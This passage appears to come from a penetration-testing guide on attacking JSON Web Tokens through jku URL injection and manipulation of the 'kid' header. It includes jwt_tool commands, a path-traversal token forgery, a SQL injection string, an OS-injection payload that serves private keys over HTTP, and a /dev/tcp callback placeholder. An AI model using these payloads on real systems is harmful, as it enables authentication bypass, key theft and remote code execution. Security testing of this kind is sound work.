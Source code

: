 If you get an HTTP interaction you now know that the server is trying to load keys from the URL you are supplying. _Use jwt\_tool's -S flag alongside the -u_ [_http://example.com_](http://example.com) _argument to generate a new key pair, inject your provided URL, generate a JWKS containing the Public Key, and sign the token with the Private Key_

## Kid issues

`kid` is an optional header claim which holds a key identifier, particularly useful when you have multiple keys to sign the tokens and you need to look up the right one to verify the signature.

### "kid" issues - reveal key

If the claim "kid" is used in the header, check the web directory for that file or a variation of it. For example if `"kid":"key/12345"` then look for _/key/12345_ and _/key/12345.pem_ on the web root.

### "kid" issues - path traversal

If the claim "kid" is used in the header, check if you can use a different file in the file system. Pick a file you might be able to predict the content of, or maybe try `"kid":"/dev/tcp/yourIP/yourPort"` to test connectivity, or even some **SSRF** payloads...\
_Use jwt\_tool's -T flag to tamper the JWT and change the value of the kid claim, then choose to keep the original signature_

```bash
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
```

Using files inside the host with known content you can also forge a valid JWT. For example, in linux systems the file `/proc/sys/kernel/randomize_va_space` has the value set to **2**. So, putting that **path** inside the "**kid**" parameter and using "**2**" as the **symetric password** to generate the JWT you should be able to generate a valid new JWT.

### "kid" issues - SQL Injection

In a scenario wehre the content of the "kid" is used to retreive the password from the database, you could change the payload inside the "kid" parameter to: `non-existent-index' UNION SELECT 'ATTACKER';-- -` and then sign the JWT with the secret key `ATTACKER`.

### "kid" issues - OS Injection

In a scenario where the "kid" parameter contains a path to the file with the key and this path is being used **inside an executed command** you could be able to obtain RCE and expose the private key with a payload like the following: `/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

## Miscellaneous attacks

The following are known weaknesses that should be tested for.

#### Cross-service relay attacks

Some web applications use a trusted JWT ‘service’ to generate and manage tokens for them. In the past some instances have occurred where a token generated for one of the JWT services’ clients can actually be accepted by another of the JWT services’ clients.\
If you observe the JWT being issued or renewed via a third-party service then it is worth identifying if you can sign up for an account on another of that service’s clients with your same username/email. If so try taking that token and replaying it in a request to your target. Is it accepted?
